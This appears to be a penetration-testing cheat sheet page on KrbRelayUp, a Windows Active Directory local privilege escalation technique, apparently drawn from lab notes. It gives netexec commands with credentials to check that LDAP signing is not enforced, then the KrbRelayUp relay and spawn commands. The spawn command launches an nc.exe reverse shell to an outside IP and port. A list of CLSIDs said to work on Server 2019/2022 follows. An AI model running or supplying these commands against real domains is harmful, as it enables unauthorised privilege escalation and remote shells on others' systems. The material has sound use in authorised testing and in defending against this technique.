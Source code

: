 ```yaml
---
title: "KrbRelaiUp"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```

## KrbRelayup
- Tool : https://github.com/Dec0ne/KrbRelayUp

- Check if exploitable : 
```sh
netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M ldap-checker
# LDAP Signing NOT Enforced!

netexec ldap brunodc.bruno.vl -u "svc_scan" -p "Sunshine1" -M maq
#MachineAccountQuota: 10
```

- Exploit with a tool : 
```powershell
.\KrbRelayUp.exe relay brunodc.bruno.vl -CreateNewComputerAccount -ComputerName pwned$ -ComputerPassword P@ssword1234 -cls <CLS>
```

```powershell
./KrbRelayUp spawn -m rbcd --DomainController brunodc.bruno.vl -cn pwned$ -cp P@ssword1234 --sc "C:\Users\svc_scan\Documents\nc.exe 10.8.3.12 4242 -e cmd"
```

- Find a CLSID for a specific OS (as admin on a comparable machine to your target):
https://github.com/tyranid/oleviewdotnet
```sh
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid

Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' 
```

**CLSIDs** (confirmed working on Server 2019/2022 with ADCS installed):

- c980e4c2-c178-4572-935d-a8a429884806
- 90f18417-f0f1-484e-9d3c-59dceee5dbd8
- 03ca98d6-ff5d-49b8-abc6-03dd84127020
- d99e6e73-fc88-11d0-b498-00a0c90312f3 (certsrv.exe)
- 42cbfaa7-a4a7-47bb-b422-bd10e9d02700
- 000c101c-0000-0000-c000-000000000046
- 1b48339c-d15e-45f3-ad55-a851cb66be6b
- 49e6370b-ab71-40ab-92f4-b009593e4518
- 50d185b9-fff3-4656-92c7-e4018da4361d
- 3c6859ce-230b-48a4-be6c-932c0c202048 (trusted installer service)


- Ressource: 
https://vulndev.io/cheats-windows/
